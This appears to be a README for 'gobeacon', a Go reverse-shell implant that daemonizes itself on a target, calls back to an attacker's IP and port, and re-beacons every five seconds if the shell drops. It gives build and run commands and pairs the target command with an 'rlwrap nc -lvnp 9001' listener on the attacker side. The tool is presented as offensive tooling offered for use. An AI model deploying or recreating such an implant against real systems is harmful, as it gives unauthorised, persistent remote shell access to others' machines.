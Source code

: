 # gobeacon
A small beaconing implant that daemonizes itself (it's golang...) and calls out to the user. If the shell dies, the implant beacons again in 5 seconds.

## Compilation
```go
go build gobeacon.go
```

## Usage:
```go
./gobeacon start <IP> <PORT>
```

## Example
On target:
```
./gobeacon start 127.0.0.1 9001
```
On attacker:
```sh
rlwrap nc -lvnp 9001
```
### Creds
Creds to this blogpost where I ripped the daemonization code from: https://socketloop.com/tutorials/golang-daemonizing-a-simple-web-server-process-example
